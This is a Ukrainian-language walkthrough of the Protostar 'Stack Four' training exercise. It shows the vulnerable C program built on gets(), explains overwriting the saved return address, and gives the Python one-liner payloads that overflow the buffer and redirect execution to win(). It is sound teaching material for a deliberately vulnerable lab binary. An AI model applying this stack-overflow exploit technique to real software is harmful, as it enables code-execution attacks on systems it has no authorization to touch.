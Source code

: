 ## [Stack Four](http://exploit.education/protostar/stack-four/)

Stack4 розглядає перезапис збереженого EIP і стандартне переповнення буфера.

Переходимо у директорію із завданням:  
```cd /opt/protostar/bin/```

Вихідний код:  
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

У нас є буфер для переповнення і вразлива функція ```gets()```, але немає інших змінних для перезапису, щоб викликати функцію ```win()```. 
У цій вправі ми будемо орієнтуватися на адресу повернення основної функції, EIP. Коли програма або функція завершує виконання, вона повинна повернутися до того місця, 
де її викликали. Ця адреса зберігається в стеку (секція стека, присвячена цій функції). 
Експериментальним способом переповняємо буфер, щоб визначити при якій кількості байтів ми отримаємо повідомлення про помилку сегментації, що означатиме, що адреса повернення була некоректною:  
```python -c "print('a' * 76") | ./stack4```  

Отже, маємо, що після 76 байт є область, яка перезаписує EIP, тому нам знадобиться 76 'a' і адреса ```win()``` у little endian. 
Ми будемо використовувати ту саму техніку, що й минулого разу з objdump:  
```objdump -x stack4 | grep win```

Отримуємо адрес 0x080483f4. Маючи усі необхідні дані, виконуємо наступну команду:  
```python -c "print('a' * 76 + '\x08\x04\x83\xf4'[::-1]" | ./stack4```